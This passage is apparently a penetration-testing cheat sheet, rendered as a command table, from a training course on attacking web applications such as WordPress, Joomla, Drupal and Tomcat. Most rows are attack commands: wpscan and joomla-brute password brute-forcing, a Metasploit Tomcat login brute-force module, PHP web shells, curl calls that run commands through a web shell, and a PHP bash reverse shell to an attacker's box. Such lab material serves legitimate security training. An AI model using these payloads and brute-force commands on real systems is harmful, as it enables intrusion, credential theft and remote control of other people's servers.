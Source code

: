 | `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>`                                                                                                                                                                       | Runs `eyewitness` using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`-d`)                                                                                                                  |
| `cat web_discovery.xml \| ./aquatone -nmap`                                                                                                                                                                                                   | Concatenates the contents of nmap scan output (web_discovery.xml) and pipes it to aquatone (`./aquatone`) while ensuring aquatone recognizes the file as nmap scan output (`-nmap`)                                            |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate`                                                                                                                                                                                | Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge                                                                                                               |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>`                                                                                                                 | Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`)                                                           |
| `curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id`                                                                                                                                                                        | cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell                                                                                                                         |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");`                                                                                                                                          | PHP code that will execute a reverse shell on a Linux-based system                                                                                                                                                             |
| `droopescan scan joomla --url http://<domainnameoripaddress>`                                                                                                                                                                                 | Runs `droopescan` against a joomla site located at the specified url                                                                                                                                                           |
| `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>`                                                             | Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames (`-usr`)                 |
| `<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>`                                                                                                                                                                                 | PHP code that will allow for web shell access on a vulnerable drupal site. Can be used through browisng to the location of the file in the web directory after saving. Can also be leveraged utilizing curl. See next command. |
| `curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id \| grep uid \| cut -f4 -d">"`                                                                                                                  | Uses curl to navigate to php web shell file and run system commands (`=id`) on the target                                                                                                                                      |
| `gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`                                                                                                                         | `gobuster` powered directory brute forcing attack refrencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`)                                                                                        |
| `auxiliary/scanner/http/tomcat_mgr_login`                                                                                                                                                                                                     | Useful Metasploit scanner module used to perform a bruteforce login attack against a tomcat site                                                                                                                               |